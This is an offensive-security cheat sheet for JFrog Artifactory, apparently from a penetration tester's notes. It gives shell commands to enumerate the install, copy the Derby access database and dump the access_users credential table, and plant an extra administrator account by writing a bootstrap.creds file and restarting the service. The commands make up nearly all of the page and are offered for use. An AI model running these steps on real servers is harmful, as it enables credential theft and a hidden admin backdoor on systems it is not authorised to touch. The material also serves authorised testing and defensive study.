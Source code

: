 # Artifactory




## Enumeration

Spot running processes:

```
$ ps aux | grep artifactory
```

Files location:

```
$ find /opt/jfrog/artifactory/var/data/artifactory/filestore
```

Backup location:

```
$ find /opt/jfrog/artifactory/var/backup/access
```




## Compromise Database

```
$ mkdir /tmp/dbcopy
$ sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/dbcopy
$ sudo chmod 755 /tmp/dbcopy/derby
$ sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
ij> connect 'jdbc:derby:/tmp/dbcopy/derby';
ij> select * from access_users;
```




## Add Admin Account

```
$ sudo bash -c "echo 'snovvcrash*=Passw0rd!' > /opt/jfrog/artifactory/var/etc/access/bootstrap.creds"
$ sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
$ sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
$ sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```

